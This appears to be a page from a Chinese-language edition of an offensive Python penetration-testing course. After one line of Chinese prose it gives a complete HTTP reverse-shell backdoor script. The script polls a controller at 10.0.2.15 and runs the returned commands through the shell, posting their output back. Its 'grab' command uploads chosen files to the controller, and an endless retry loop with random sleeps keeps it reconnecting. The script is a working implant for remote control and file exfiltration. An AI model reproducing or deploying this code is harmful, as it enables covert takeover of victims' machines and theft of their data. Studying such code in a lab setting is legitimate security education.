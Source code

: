 使用`admin`帐户登录，我们已安装了 Python 编译器。因此，我们将通过创建一个带有异常处理程序的无限循环来解决此问题，如下所示：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Tunning

import os
import shutil
import subprocess
import _winreg as wreg

import requests 
import time

...

#Last phase is to start a reverse connection back to our kali machine
import random
def connect():
    while True: 

        req = requests.get('http://10.0.2.15')
        command = req.text

        if 'terminate' in command:
            return 1 

        elif 'grab' in command:

            grab,path=command.split('*')
            if os.path.exists(path):
                url = 'http://10.0.2.15/store'
                files = {'file': open(path, 'rb')}
                r = requests.post(url, files=files)
            else:
                post_response = requests.post(url='http://10.0.2.15', data=
                                          '[-] Not able to find the file !' )

        else:
            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
            post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )
    time.sleep(3)

while True:
    try:
        if connect()==1:
                break
    except:
        sleep_for = random.randrange(1,10)
        time.sleep( sleep_for )
        #time.sleep( sleep_for ) #sleep for a random time between 1-10 minutes
        pass
```
